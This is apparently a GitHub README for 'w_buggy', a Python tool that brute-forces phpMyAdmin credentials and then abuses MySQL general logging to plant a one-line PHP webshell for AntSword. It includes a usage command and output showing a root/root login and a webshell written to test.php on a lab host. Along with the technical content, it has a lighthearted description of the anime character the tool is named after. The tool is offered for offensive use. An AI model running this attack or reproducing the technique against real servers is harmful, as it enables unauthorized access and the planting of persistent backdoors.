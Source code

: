 # w_buggy
phpmyadmin密码爆破并利用mysql日志写一句话shell  
#
w_buggy名称由来,小丑 巴基 (バギー Bagī?, Buggy) 是巴基海贼团船长。四分五裂果实的能力者，四分五裂人，身体可以分裂，操控各个部分飞向敌人攻击，斩击对其无效。使用武器为八把水果刀。 有着一个大红鼻子跟屁股，外形像小丑，他很忌讳别人谈及他的鼻子，也因为如此常常发狂及伤及无辜。口头禅是“ハデに -”，出海的梦想是得到世间的财宝并成为海贼王。  
![](buggy.jpg)
```text
像个二逼似的
```

w_buggy_asynchronous.py 异步版本  
w_buggy_synchronize.py 异步版本
# 
#### 支持phpmyadmin版本
Version 3.5.8.2  
虚拟机里的环境动不动就死了。。。,协程控制到2个任务,慢的蜗牛一样
#### 运行环境
linux, >=python3.7
#### 遗留问题
异步版本存在不同session间cookie覆盖问题未解决

#### 一句话木马路径
当前默认为www目录下的test.php,密码默认为test,使用蚁剑连接
#### 运行
```shell script
(venv) [root@localhost w_buggy]# python w_buggy_asynchronous.py http://192.168.52.143 -t 2
开始扫描时间2021-01-22 20:02:22
登录成功:用户名为root,密码为root
日志开关已打开
日志路径设置成功
开始写入一句话木马
一句话木马路径: http://192.168.52.143/test.php,密码test,请使用蚁剑连接
扫描完成时间2021-01-22 20:02:28, 扫描耗时:0分钟
```
#
![](gzh.jpg)
